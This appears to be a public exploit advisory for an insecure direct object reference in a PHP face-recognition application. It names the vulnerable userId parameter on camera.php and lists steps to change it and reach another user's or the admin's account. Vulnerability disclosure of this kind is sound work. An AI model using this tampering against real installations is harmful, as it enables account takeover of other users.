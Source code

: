 # Exploit Title: Horizontal Privilage Escaltion through idor in face recognition 
# Exploit Author: Ramansh Sharma
# Vendor Homepage: https://diyaact.com/php-source-code/face-recognition-php.zip
# Software Link: https://diyaact.com/php-source-code/face-recognition-php.zip
# Version: v1.0
# Tested on: Windows 11, Apache

Description: Horizontal privilege escalation is when a user gains the access rights of another user who has the same access level as he or she does. 
That might sound a little weird. 
You might wonder why someone would want to gain the rights of someone at the same level as that person.
Vulnerable Parameters:
GET /face-recognition-php/facepay-master/camera.php?userId=1 


Payload:
change the userid in for.eg my user is 3 & i changed it to 1

Steps:
1) Login into my own account
2) Now you redirct to this http://localhost/face-recognition-php/facepay-master/index.php
3) Now click on this Enrol Your Face Biometric Data & you will be redirected to http://localhost/face-recognition-php/facepay-master/camera.php?userId=2
4) Now change the user id to 1 & you will be privilaged to the admin access
